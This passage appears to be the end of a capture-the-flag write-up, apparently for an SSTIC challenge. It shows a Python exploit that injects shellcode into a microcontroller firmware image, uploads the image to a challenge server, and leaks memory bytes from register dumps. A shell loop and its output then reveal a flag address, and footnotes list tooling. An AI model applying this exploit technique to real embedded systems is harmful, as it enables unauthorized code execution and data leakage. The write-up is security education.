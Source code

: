         for i in range(len(shellcode)):
            cmd.payload += storeatoffset(i, shellcode[i])

        for i in range(0xf003,0xf005):
            cmd.payload+= writea(i, 0x100)

        cmd.nb_bytes = len(cmd.payload)
        output.write(cmd.gencmd())
        output.write(cmd.getend(1))
    with open('payload', 'wb') as output:
        output.write(payload)


    FIRMWARE = "fw.hex"

    #print("---------------------------------------------")
    #print("----- Microcontroller firmware uploader -----")
    #print("---------------------------------------------")
    #print()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('178.33.105.197', 10101))

    #print(":: Serial port connected.")
    #print(":: Uploading firmware... ", end='')

    [ s.send(line) for line in open(FIRMWARE, 'rb') ]

    #print("done.")
    #print()

    resp = b''
    while True:
        ready, _, _ = select.select([s], [], [], 10)
        if ready:
            try:
                data = s.recv(32)
            except:
                break
            if not data:
                break
            resp += data
        else:
            break 


    r8 = str(resp, 'utf-8').split('r8:')[1][2:4]
    r9 = str(resp, 'utf-8').split('r9:')[1][2:4]
    r10 = str(resp, 'utf-8').split('r10:')[1][2:4]
    r11 = str(resp, 'utf-8').split('r11:')[1][2:4]
    r12 = str(resp, 'utf-8').split('r12:')[1][2:4]

    bytes_5 = "%s%s%s%s%s"%(r8,r9,r10,r11,r12)
    print(bytes.fromhex(bytes_5).decode("utf-8"))
    s.close()

    $ for i in {560..570}; do python exploit.py $i; done
    <66a6
    5dc05
    0ec0c
    84cf1
    dd5b3
    bbb75
    c8c@c
    halle
    nge.s
    stic.
    org>


[^1]: <https://www.kernel.org/doc/Documentation/usb/usbmon.txt>
[^2]: git://gitorious.org/usbmon-parser/usbmon-parser.git
[^3]: <http://blogs.kgsoft.co.uk/2013_03_15_prg.htm>
[^4]: [www.qemu.org/](www.qemu.org/)
[^5]: <https://releases.linaro.org/latest/components/toolchain/binaries/>
[^6]: <https://www.hex-rays.com/products/ida/>
[^7]: <http://board.flatassembler.net/download.php?id=5698>